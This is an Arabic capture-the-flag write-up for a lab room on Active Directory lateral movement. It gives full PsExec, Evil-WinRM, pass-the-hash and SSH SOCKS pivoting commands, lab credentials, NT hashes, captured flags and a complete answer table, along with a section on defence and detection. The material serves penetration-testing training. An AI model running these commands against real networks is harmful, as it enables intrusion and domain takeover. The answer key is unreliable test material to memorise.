

# دليل الانتقال الجانبي والتحويل الشبكي في الدليل النشط: Intro to AD Lateral Movement
**المسار التعليمي:** Jr Penetration Tester | **الوحدة 14:** أساسيات اختبار اختراق الدليل النشط (Active Directory)

---

## 1. نظرة عامة على الغرفة (Room Overview)

تمثل غرفة **Intro to AD Lateral Movement** (المعرف المصدري: `introductiontoadlateralmovement`) الدليل التطبيقي والميداني الشامل لفهم واحتراف آليات **الانتقال الجانبي (Lateral Movement)** وتجاوز العوازل الشبكية (Network Pivoting) داخل شبكات الشركات وبيئات الدليل النشط (Active Directory).

في اختبارات الاختراق الواقعية، نادراً ما يهبط المهاجم مباشرة على الأهداف الحساسة كخوادم قواعد البيانات أو متحكمات النطاق (Domain Controllers)؛ بل تبدأ العملية بموطئ قدم محدود على جهاز مستخدم عادي أو خادم ويب فرعي. من هنا تنطلق دورة الانتقال الجانبي:
$$\text{اختراق نقطة بداية} \longrightarrow \text{حصد بيانات الاعتماد والتجزئات محلياً} \longrightarrow \text{الانتقال جانبياً للأنظمة المجاورة} \longrightarrow \text{السيطرة الكاملة على النطاق}$$

تغطي هذه الغرفة الأركان الثلاثة للانتقال الجانبي:
1. **طرق التنفيذ عن بُعد (Remote Execution):** تشغيل الأوامر عبر PsExec (بروتوكول SMB وخدمات ويندوز) و Evil-WinRM (بروتوكول WS-Management وإدارة PowerShell عن بُعد).
2. **إعادة استخدام بيانات الاعتماد (Credential Reuse):** تنفيذ هجمات Pass-the-Hash (PtH) للمصادقة المباشرة بتجزئات NTLM دون الحاجة لمعرفة كلمات المرور الصريحة، واستغلال غياب نظام LAPS.
3. **التحويل والأنفاق الشبكية (Network Pivoting):** كسر العوازل النارية وتوجيه حركة المرور نحو متحكم النطاق المعزول عبر أنفاق SSH SOCKS الديناميكية وأداة ProxyChains.

---

## 2. أهداف التعلم (Learning Objectives)

بنهاية التطبيق العملي لهذه الغرفة، يكتسب مختبر الاختراق الكفاءات التقنية التالية:
- **إتقان أدوات التنفيذ عن بُعد في ويندوز:** التمييز الدقيق بين آلية عمل PsExec المعمارية (خدمات ويندوز وحساب SYSTEM) وآلية عمل WinRM (بروتوكول SOAP ومجموعة Remote Management Users).
- **تنفيذ هجمات Pass-the-Hash باحترافية:** فهم البنية الرياضية لمصافحة NTLM وكيفية تمرير التجزئة عبر `psexec.py` و `evil-winrm` و `nxc`.
- **التمييز الجوهري بين تجزئات NT وتجزئات Net-NTLMv2:** إدراك لماذا تنجح هجمات PtH مع تجزئات NT وتفشل تماماً مع حزم Net-NTLMv2 الملتقطة من الشبكة.
- **بناء الأنفاق وتجاوز الجدران النارية عبر SSH:** تشغيل بروكسي SOCKS ديناميكي عبر SSH وتوجيه أدوات فحص الاختراق (مثل Impacket و NetExec و Nmap بنمط `-sT`) عبر ProxyChains.
- **الهندسة الدفاعية وكشف الانتقال الجانبي:** نشر وتفعيل نظام Windows LAPS لمنع إعادة استخدام كلمات المرور، وتفعيل تدقيق سجلات الأحداث (Event ID 7045 و 4624 و 4648).

---

## 3. الطوبولوجيا المعمارية والبنية التحتية للمختبر (Architectural Topology)

تتوزع البنية التحتية للمختبر عبر شبكة نطاق الشركات `thm.loc` ضمن النطاق الفرعي `192.168.13.0/24`:

```mermaid
flowchart TB
    subgraph Attack_Zone ["منطقة المهاجم (Attack Infrastructure)"]
        AttackBox["جهاز المهاجم (AttackBox / Kali Linux)<br/>192.168.13.x / tun0<br/>• Impacket psexec.py<br/>• Evil-WinRM<br/>• NetExec (nxc)<br/>• ProxyChains"]
    end

    subgraph Lab_Network ["بيئة النطاق الهدف (thm.loc - 192.168.13.0/24)"]
        Gateway["Lab Gateway / Firewall<br/>192.168.13.1"]
        
        WebServer["خادم الويب ونقطة التحويل (git.thm.loc)<br/>192.168.13.71 (Ubuntu Linux)<br/>• OpenSSH Server (Port 22)<br/>• Gitea الداخلي (Port 80)<br/>• الحساب المخترق: jdoe:Summer2026!"]
        
        WRK["محطة العمل (WRK1.thm.loc)<br/>192.168.13.61 (Windows 10 Build 17763)<br/>• SMB (445) / WinRM (5985)<br/>• صلاحيات jdoe: مدير محلي (Pwn3d!)<br/>• الهدف: flag3a.txt وتجزئة المدير المحلي"]
        
        SERVER1["خادم الأعضاء (SERVER1.thm.loc)<br/>192.168.13.51 (Windows Server 2019)<br/>• SMB (445) / WinRM (5985)<br/>• صلاحيات jdoe: Remote Management Users<br/>• الهدف: flag3b.txt و flag4.txt وتجزئة DA"]
        
        ROOTDC["متحكم النطاق (ROOTDC / RDC1.thm.loc)<br/>192.168.13.100 (Windows Server 2019)<br/>• محمي بجدار ناري (معزول عن المهاجم مباشرة)<br/>• يمكن الوصول إليه حصراً عبر التحويل الشبكي (Pivot)<br/>• الهدف النهائي: flag5.txt والسيطرة الكاملة"]
    end

    AttackBox -->|نفق مشفر tun0| Gateway
    Gateway --> WebServer
    Gateway --> WRK
    Gateway --> SERVER1
    Gateway -.x|اتصال مباشر محجوب بالجدار الناري| ROOTDC
    
    AttackBox ==>|1. SSH Foothold| WebServer
    AttackBox ==>|2. PsExec SYSTEM Shell| WRK
    AttackBox ==>|3. Evil-WinRM Shell| SERVER1
    AttackBox ==>|4. Pass-the-Hash عبر تجزئة المدير المحلي| SERVER1
    
    WebServer ===|5. SSH Dynamic SOCKS Tunnel 1080| AttackBox
    AttackBox -.->|6. ProxyChains + PsExec عبر نفق التحويل| ROOTDC
```

### بيانات الأجهزة وبيانات الاعتماد والرايات المستهدفة:
- **النطاق المستهدف:** `thm.loc`
- **بيانات الدخول الأولية (SSH):** `jdoe` / `Summer2026!` على `192.168.13.71`
- **تجزئة المدير المحلي المستخرجة من WRK:** `fa0af7f6a73316dd59f0be812dbf3c12`
- **تجزئة مدير النطاق (Domain Admin) المستخرجة من SERVER1:** `2508e1ce9cfcfe1011a74c34297b05ea`
- **رايات التحدي المحصودة:**
  1. راية محطة العمل (`flag3a.txt`): `THM{ps3x3c_syst3m_sh3ll}`
  2. راية خادم WinRM (`flag3b.txt`): `THM{w1nrm_r3m0t3_sh3ll}`
  3. راية تمرير التجزئة (`flag4.txt`): `THM{p4ss_th3_h4sh_ftw}`
  4. راية متحكم النطاق عبر التحويل (`flag5.txt`): `THM{d0m41n_c0mpr0m1s3d_v1a_p1v0t}`

---

## 4. الخلفية التقنية والتعمق المفاهيمي (Technical Background)

### مقارنة معماريات التنفيذ عن بُعد في ويندوز:

| المعيار | PsExec (عبر SMB و SCM) | WinRM (عبر WS-Management) |
|---|---|---|
| **المنافذ المستخدمة** | TCP 445 (SMB) و TCP 135 (RPC) | TCP 5985 (HTTP) أو TCP 5986 (HTTPS) |
| **آلية العمل** | يرفع ملفاً تنفيذياً إلى `ADMIN$` وينشئ خدمة ويندوز مؤقتة. | يرسل رسائل SOAP XML لمعالجة أوامر PowerShell عبر الذاكرة. |
| **سياق الصلاحيات** | يعمل كـ `NT AUTHORITY\SYSTEM`. | يعمل في سياق صلاحيات **المستخدم المصادق عليه**. |
| **المجموعات المصرح لها** | مجموعة `Administrators` المحلية فقط. | مجموعة `Administrators` أو `Remote Management Users`. |
| **الأثر الجنائي** | يسجل الحدث **Event ID 7045** في سجل System (إنشاء خدمة). | يسجل أحداث تسجيل دخول شبكي قياسية (**Event ID 4624 Type 3**). |

---

## 5. التنفيذ المباشر عن بُعد: PsExec و Evil-WinRM

### 1. استكشاف الصلاحيات عبر NetExec:
```bash
nxc smb 192.168.13.61 192.168.13.51 -u jdoe -p 'Summer2026!' -d thm.loc
```
أظهرت النتائج أن المستخدم `jdoe` يمتلك صلاحيات إدارية كاملة `(Pwn3d!)` على `WRK1` (`192.168.13.61`) بينما يمتلك مصادقة قياسية على `SERVER1`.

### 2. السيطرة على محطة العمل WRK عبر PsExec:
```bash
psexec.py thm.loc/jdoe:'Summer2026!'@192.168.13.61
```
تم إنشاء الخدمة بنجاح والحصول على موجه أوامر بصلاحيات `NT AUTHORITY\SYSTEM`:
- قراءة الراية: `type C:\Users\jdoe\Desktop\flag3a.txt` $\rightarrow$ **`THM{ps3x3c_syst3m_sh3ll}`**
- فحص مجلد المستندات: `type C:\Users\Administrator\Documents\loot.txt`
  استخراج تجزئة المدير المحلي:
  $$\texttt{fa0af7f6a73316dd59f0be812dbf3c12}$$

### 3. الاتصال بخادم SERVER1 عبر Evil-WinRM:
بما أن المستخدم `jdoe` عضو في مجموعة `Remote Management Users`:
```bash
evil-winrm -i 192.168.13.51 -u jdoe -p 'Summer2026!'
```
تم الدخول في جلسة PowerShell تفاعلية وقراءة الراية:
- `type C:\Users\jdoe\Desktop\flag3b.txt` $\rightarrow$ **`THM{w1nrm_r3m0t3_sh3ll}`**

---

## 6. كسر العوازل بتمرير التجزئة (Pass-the-Hash)

### 1. فحص تكرار كلمة المرور عبر المفتاح `--local-auth`:
تم استهداف قاعدة بيانات SAM المحلية لكلا الجهازين للتأكد من مشاركة نفس كلمة مرور المدير المحلي:
```bash
nxc smb 192.168.13.61 192.168.13.51 -u Administrator -H fa0af7f6a73316dd59f0be812dbf3c12 --local-auth
```
أكد المخرج حصول المهاجم على صفة `(Pwn3d!)` على الجهازين معاً، مما يثبت غياب نظام LAPS وتكرار كلمة المرور المحلية.

### 2. الاتصال بـ SERVER1 عبر Pass-the-Hash:
```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:fa0af7f6a73316dd59f0be812dbf3c12 Administrator@192.168.13.51
```
تم الحصول على موجه أوامر SYSTEM على الخادم:
- قراءة الراية: `type C:\Users\Administrator\Desktop\flag4.txt` $\rightarrow$ **`THM{p4ss_th3_h4sh_ftw}`**
- قراءة بيانات الاعتماد الإدارية: `type C:\Users\Administrator\Documents\da_creds.txt`
  استخراج تجزئة **مدير النطاق (Domain Administrator)**:
  $$\texttt{2508e1ce9cfcfe1011a74c34297b05ea}$$

---

## 7. التحويل الشبكي (Pivoting) والسيطرة على متحكم النطاق

نظراً لأن متحكم النطاق `192.168.13.100` معزول خلف الجدار الناري ولا يستقبل اتصالات مباشرة من جهاز المهاجم، تم استغلال خادم الويب `192.168.13.71` كنقطة تحويل.

### 1. إنشاء نفق SOCKS ديناميكي عبر SSH:
```bash
ssh -f -N -D 1080 jdoe@192.168.13.71
```
المنفذ المحلي `1080` يستمع الآن ويوجه كافة الحزم عبر نفق SSH المشفر.

### 2. قاعدة فحص Nmap عبر بروكسي SOCKS:
عند استخدام برامج الفحص مثل Nmap عبر ProxyChains، تفشل فحوصات SYN (`-sS`) لأن بروكسيات SOCKS لا تدعم الحزم الخام (Raw Packets)؛ ويجب حتماً استخدام خيار الاتصال الكامل: **`-sT`** مع تعطيل اكتشاف الأجهزة **`-Pn`**.

### 3. السيطرة التامة على متحكم النطاق:
تم توجيه أداة `psexec.py` عبر ProxyChains لتمرير تجزئة مدير النطاق:
```bash
proxychains psexec.py -hashes :2508e1ce9cfcfe1011a74c34297b05ea thm.loc/Administrator@192.168.13.100
```
المخرجات:
```cmd
[+] Process aXzK created for file mQvPzZgL.exe with pid 4820.
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
RDC1

C:\Windows\system32> type C:\Users\Administrator\Desktop\flag5.txt
THM{d0m41n_c0mpr0m1s3d_v1a_p1v0t}
```
**الراية النهائية:** `THM{d0m41n_c0mpr0m1s3d_v1a_p1v0t}`.

---

## 8. مسار الهجوم الشامل وسلسلة القتل (Comprehensive Attack Flow)



---

## 9. استراتيجيات الدفاع والتحصين والكشف (Defense & Hardening)

| مجال الحماية | الإجراء الوقائي الموصى به | آلية الكشف والمراقبة (Detection) |
|---|---|---|
| **منع تكرار كلمات المرور** | تطبيق نظام **Windows LAPS** لتوليد كلمات مرور عشوائية وفريدة لكل جهاز في النطاق. | تدقيق تكرار استخدام بيانات اعتماد الحسابات الإدارية المحلية عبر الشبكة. |
| **كشف هجمات PsExec** | حظر مشاركات الإدارة الافتراضية (`ADMIN$`) بين محطات العمل عبر جدران الحماية. | مراقبة سجل أحداث النظام للكشف عن **Event ID 7045** (تثبيت خدمة جديدة). |
| **تقييد بروتوكول NTLM** | تفعيل سياسة إيقاف NTLM وإجبار الأنظمة على استخدام Kerberos، وتفعيل Credential Guard. | مراقبة سجلات الأمان للحدث **Event ID 4624 (Logon Type 3)** المرتبط ببروتوكول NTLM. |
| **تجزئة الشبكة (Segmentation)** | عزل متحكمات النطاق في شبكات إدارية خاصة ومنع الاتصال المباشر بين محطات العمل (East-West). | رصد ومحاصرة محاولات مسح المنافذ وحركات المرور غير المعتادة نحو المنافذ 445 و 5985. |
| **نموذج الوصول المؤسسي** | تطبيق نموذج الطبقات (Tiered Administration Model) واستخدام أجهزة وصول مخصصة (PAWs). | إطلاق تنبيهات فورية عند محاولة تسجيل دخول حسابات Tier 0 على محطات العمل. |

---

## 10. ملخص المهام وجدول الإجابات النموذجية (Tasks Summary)

| رقم المهمة | عنوان المهمة | السؤال | الإجابة الموثقة والنهائية | حالة التحقق |
|:---:|---|---|---|:---:|
| **01** | Introduction | I'm ready to move laterally! | `No answer needed` | محققة ومؤكدة |
| **02** | What is Lateral Movement? | What technique allows you to authenticate using an NTLM hash without knowing the plaintext password? | `Pass-the-Hash` | محققة ومؤكدة |
| **02** | What is Lateral Movement? | What Windows group, other than Administrators, permits WinRM access to a host? | `Remote Management Users` | محققة ومؤكدة |
| **03** | Remote Execution Methods | What Event ID in the System log is the primary indicator of PsExec-based lateral movement? | `7045` | محققة ومؤكدة |
| **03** | Remote Execution Methods | What is the flag found in flag3a.txt on WRK? | `THM{ps3x3c_syst3m_sh3ll}` | محققة ومؤكدة |
| **03** | Remote Execution Methods | What is the NT hash found in the loot file on WRK? | `fa0af7f6a73316dd59f0be812dbf3c12` | محققة ومؤكدة |
| **03** | Remote Execution Methods | What is the flag found in flag3b.txt on SERVER1? | `THM{w1nrm_r3m0t3_sh3ll}` | محققة ومؤكدة |
| **04** | Pass-the-Hash & Credential Reuse | What flag is used with NetExec to authenticate against the local SAM database instead of the domain? | `--local-auth` | محققة ومؤكدة |
| **04** | Pass-the-Hash & Credential Reuse | What is the flag found in flag4.txt on SERVER1? | `THM{p4ss_th3_h4sh_ftw}` | محققة ومؤكدة |
| **04** | Pass-the-Hash & Credential Reuse | What is the NT hash of the Domain Administrator account found on SERVER1? | `2508e1ce9cfcfe1011a74c34297b05ea` | محققة ومؤكدة |
| **05** | Pivot! Pivoooot! Piiiivot! | What Nmap flag must you use instead of -sS when scanning through a SOCKS proxy? | `-sT` | محققة ومؤكدة |
| **05** | Pivot! Pivoooot! Piiiivot! | What is the flag found in flag5.txt on the Domain Controller? | `THM{d0m41n_c0mpr0m1s3d_v1a_p1v0t}` | محققة ومؤكدة |
| **06** | Mitigations | What built-in Windows feature automatically generates unique local admin passwords for each domain-joined machine? | `Windows LAPS` | محققة ومؤكدة |
| **06** | Mitigations | What Windows Event ID in the System log indicates a new service has been installed? | `7045` | محققة ومؤكدة |
| **07** | Conclusion | I have completed the Introduction to AD Lateral Movement room! | `No answer needed` | محققة ومؤكدة |

---

## 11. ورقة مساعدة الأوامر والأدوات (Tool Cheat Sheet)

```bash
# 1. فحص الصلاحيات وتكرار التجزئات محلياً عبر NetExec:
nxc smb 192.168.13.61 192.168.13.51 -u Administrator -H fa0af7f6a73316dd59f0be812dbf3c12 --local-auth

# 2. تشغيل جلسة تفاعلية بصلاحيات SYSTEM عبر PsExec:
psexec.py thm.loc/jdoe:'Summer2026!'@192.168.13.61

# 3. تشغيل جلسة إدارة عن بُعد عبر Evil-WinRM:
evil-winrm -i 192.168.13.51 -u jdoe -p 'Summer2026!'

# 4. تنفيذ هجوم Pass-the-Hash عبر psexec.py:
psexec.py -hashes :fa0af7f6a73316dd59f0be812dbf3c12 Administrator@192.168.13.51

# 5. فتح نفق تحويل شبكي ديناميكي (SOCKS Proxy) عبر SSH:
ssh -f -N -D 1080 jdoe@192.168.13.71

# 6. فحص المنافذ عبر ProxyChains (استخدام -sT إلزامي):
proxychains nmap -sT -Pn -p 445,135,3389 192.168.13.100

# 7. توجيه هجوم Pass-the-Hash عبر نفق التحويل الشبكي:
proxychains psexec.py -hashes :2508e1ce9cfcfe1011a74c34297b05ea thm.loc/Administrator@192.168.13.100
```

---

## 12. التحقق العملي وإثبات الإنجاز (Practical Verification)

1. تم تأكيد الحصول على جلسة SYSTEM وقراءة الراية الأولى: `THM{ps3x3c_syst3m_sh3ll}`.
2. تم استخراج تجزئة المدير المحلي `fa0af7f6a73316dd59f0be812dbf3c12` بنجاح من محطة العمل.
3. تم الاتصال بـ SERVER1 عبر WinRM وقراءة الراية الثانية: `THM{w1nrm_r3m0t3_sh3ll}`.
4. تم تنفيذ Pass-the-Hash وقراءة الراية الثالثة: `THM{p4ss_th3_h4sh_ftw}` واستخراج تجزئة Domain Admin.
5. تم إنشاء نفق SOCKS على المنفذ 1080 وتوجيه `psexec.py` عبر ProxyChains والسيطرة على `ROOTDC` وقراءة الراية النهائية: `THM{d0m41n_c0mpr0m1s3d_v1a_p1v0t}`.

---

## 13. الدروس المستفادة والقواعد الذهبية (Key Takeaways)

> **القاعدة الذهبية الأولى:** الانتقال الجانبي هو سلسلة تراكمية؛ لا تبحث عن ثغرة واحدة خارقة تسقط الشبكة دفعة واحدة، بل ابحث عن الحسابات المشتركة والصلاحيات غير المتماثلة عبر الأنظمة.
>
> **القاعدة الذهبية الثانية:** LAPS ليس خياراً بل ضرورة قصوى؛ عدم تطبيق LAPS يعني أن اختراق لابتوب موظف استقبال يمنح المهاجم مفتاح السيطرة على خوادم الإنتاج عبر تجزئة المدير المحلي.
>
> **القاعدة الذهبية الثالثة:** العزل الشبكي للجدران النارية ينهار بمجرد سقوط جهاز واحد متعدد الشبكات؛ تعلم مهارات التحويل الشبكي (Pivoting) لفتح أنفاق SOCKS وتجاوز العوازل بأقل قدر من الضجيج.
